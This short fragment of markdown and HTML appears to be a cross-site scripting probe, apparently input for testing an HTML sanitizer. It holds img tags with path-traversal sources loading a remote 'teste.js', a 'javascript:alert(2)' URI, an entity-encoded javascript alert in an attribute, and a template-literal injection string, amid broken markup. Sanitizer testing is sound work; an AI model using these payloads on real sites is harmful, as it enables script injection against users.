 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="\b../../aaaaaa">bbbb</div>
<span value="`${1+1}`">aaa</span>

](()
